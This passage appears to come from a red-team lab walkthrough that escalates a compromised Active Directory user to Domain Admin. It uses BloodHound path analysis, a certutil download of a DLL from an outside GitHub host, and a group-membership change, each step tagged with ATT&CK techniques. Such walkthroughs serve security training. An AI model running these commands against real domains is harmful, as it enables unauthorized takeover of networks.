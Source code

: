 Now you will need to go to `http://localhost:7474` in your browser, login as `neo4j` user with `neo4j` password and set the new password, for example `P@ssw0rd`.

Let us now open Bloodhound (use the newly-set `neo4j` credentials to connect to the database) and import the ZIP file into it.

We mark our AD user as compromised and then we find a path from the compromised principal to Domain Admins

![Bloodhound Domain Admins privilege escalation path](images/bloodhound.png)

We can see that our compromised user is a member of `ServerAdmins` group which has `GenericWrite` permissions over the `ITSupport` group which in turn has `AllExtendedRights` over `Administrator` who is Domain Admin.

### AD Privilege Escalation

Let's go back to our compromised system with a compromised AD user and follow that privilege escalation path to become become Domain Admin.

In order to convienently run Active Directory commands, let's import Active Directory PowerShell module.
Usually it comes with RSAT AD tools, but we can also get it directly from the Microsoft DLL. Let's download it with `certutil` and import it

**Step 2.7**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll
[ITSERVER:PowerShell] Import-Module C:\Temp\a.dll
```
ATT&CK Techniques: `T1005`

`GenericWrite` persmissions that we have on our compormised account mean that we can add ourselves to the `ITSupport` group. Let's do that!

**Step 2.8**
```PowerShell
[ITSERVER:PowerShell] Add-ADGroupMember -Identity "ITSupport" -Members "billh"
```
ATT&CK Techniques: `T1098.007`

Great! We now have `AllExtendedRights` over all other users including domain administrator. This means that we can set its password which is exactly what we are going to do.
